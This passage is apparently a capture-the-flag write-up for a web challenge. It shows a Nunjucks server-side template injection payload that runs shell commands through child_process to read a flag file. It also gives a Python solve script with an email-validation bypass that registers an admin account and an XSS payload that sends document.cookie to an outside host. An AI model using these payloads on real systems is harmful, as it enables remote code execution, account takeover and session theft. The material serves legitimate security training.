 ![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734153476/2024/12/c34d463bb6907cefc1b12f9013950411.png)

And it worked!

Now I just need template injection!

## template injection

Simple payload from HackTricks: [SSTI (Server Side Template Injection) | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

```html
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /flag.txt')")()}}
```

## activation

Now, to activate the payload, we simply visit the target page directly, `index.html` has been overwritten, which means we will now see the flag.
## solve script

The last step of prototype pollution + template injection took me so long to find, was on the edge of giving up.

In the end it was worth it, loved the challenge.

```python
import re
import random
from time import sleep
import requests

from server import serve_file, webhook

target = "http://94.237.55.109:44276"
emailt = "http://94.237.55.109:59902"

# register, verify, login as admin using email bypass
email = f"u{random.randint(100, 1000)}@interstellar.htb"
email = f'<(<test@email.htb>)y{random.randint(100, 1000)}@interstellar.htb>'
print(requests.post(target + "/api/register", json={
    "email": email,
    "password": "password",
    "role": "admin"
}).text)
requests.get(f"{emailt}/deleteall")
print(requests.post(f"{target}/api/sendEmail", json={"email": email}).text)
sleep(0.5)
code = re.findall(r"Your verification code is: ([a-f0-9]+)", requests.get(emailt).text)[0]
print(requests.post(f"{target}/api/verify", json={"email": email, "code": code}).text)
token = requests.post(f"{target}/api/login", json={"email": email, "password": "password"}).json()['token']
print("token", token)
s = requests.Session()
s.cookies.set("auth", token)

# useless xss
b = s.post(f"{target}/api/bounties", json={"status": "approved", "target_name": "test", "description": "hello"}).json()['data']
print(s.put(f"{target}/api/bounties/{b['id']}", json={
    "description": "<img src=1 onerror='location.href=\"https://1337.yun.ng/?\"+document.cookie'/>"
}).text)
stop, wait = webhook(1337)
print(s.get(f"{target}/api/report/{b['id']}").text)
```